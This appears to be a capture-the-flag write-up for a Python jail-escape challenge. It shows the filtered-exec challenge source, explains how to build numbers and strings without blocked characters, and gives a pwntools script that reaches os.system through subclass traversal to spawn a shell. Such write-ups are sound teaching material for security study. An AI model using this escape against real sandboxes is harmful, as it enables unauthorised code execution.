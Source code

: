 # Modulo

```python
import ast
print("Welcome to the jail! You're never gonna escape!")
payload = input("Enter payload: ") # No uppercase needed
blacklist = list("abdefghijklmnopqrstuvwxyz1234567890\\;._")
for i in payload:
    assert ord(i) >= 32
    assert ord(i) <= 127
    assert (payload.count('>') + payload.count('<')) <= 1
    assert payload.count('=') <= 1
    assert i not in blacklist

tree = ast.parse(payload)
for node in ast.walk(tree):
    if isinstance(node, ast.BinOp):
        if not isinstance(node.op, ast.Mod): # Modulo because why not?
            raise ValueError("I don't like math :(")
exec(payload,{'__builtins__':{},'c':getattr}) # This is enough right?
print('Bye!')
```

Requirements:

1. No builtins: use `().__class__.__base__.__subclasses__()[os_wrap_index].__init__.__globals__["system"]("sh")`
2. No lowercase letters except `c`, only allow `%` binary op: use `"%c%c" % (97, 98)` to construct strings
3. No integers: use `()<((),)` as `1`, use `-~x` as `x+1`
4. No `.`: use `getattr(A, "B")` as `A.B`

Inspired by [official writeup](https://github.com/scriptCTF/scriptCTF2025-OfficialWriteups/blob/main/Misc/Modulo/solve/solve.py) and [writeup by @squar3](http://squar3.blog/ScriptCTF-2025-Writeups/). 

Steps:

1. construct arbitrary numbers using `-~` and `()<((),)`
2. construct arbitrary strings using `"%c%c" % (ord("A"), ord("B"))` where `ord("A")` is computed in the first step
3. convert `().__class__.__base__.__subclasses__()[os_index].__init__.__globals__['system']('sh')` to use getattr where the strings are generated in the second step

Attack script:

```python
from pwn import *

context(log_level="debug")

subclasses = str(().__class__.__base__.__subclasses__())

# find the indices of the builtins
# assuming we are using the same Python version as remote

# assuming os._wrap_close is at 158
os_index = 158
assert subclasses.split(", ").index("<class 'os._wrap_close'>") == os_index

p = process(["python3", "modulo.py"])


# to construct arbitrary number: -~x = ~(~x) + 1 = x + 1, so -~-~x = x + 2, etc
# 1: ()==()
is_first = True


def number(i):
    global is_first
    if is_first:
        # we need to define O=1
        one = "()<((),)"
        added = "-~" * (i - 1)
        is_first = False
        return f"(O:={one},{added}O)[O]"
    else:
        added = "-~" * (i - 1)
        return f"({added}O)"


# to construct "abc": use "%c%c%c" % (ord("a"), ord("b"), ord("c"))
def string(s):
    fmt = "%c" * len(s)
    args = ",".join([number(ord(ch)) for ch in s])
    return f'("{fmt}"%({args}))'


# validation
assert eval(number(10)) == 10
assert eval(string("system")) == "system"

p.recvuntil(b"payload: ")

# ().__class__.__base__.__subclasses__()[os_index].__init__.__globals__['system']('sh')
# A.B -> c(A, "B") where c is getattr
# c(c(c(c(c((), "__class__"), "__base__"), "__subclasses__")()[os_index], "__init__"), "__globals__")["system"]("sh")
is_first = True
payload = f'c(c(c(c(c((), {string("__class__")}), {string("__base__")}), {string("__subclasses__")})()[{number(os_index)}], {string("__init__")}), {string("__globals__")})[{string("system")}]({string("sh")})'
p.sendline(payload.encode())
p.interactive()
```
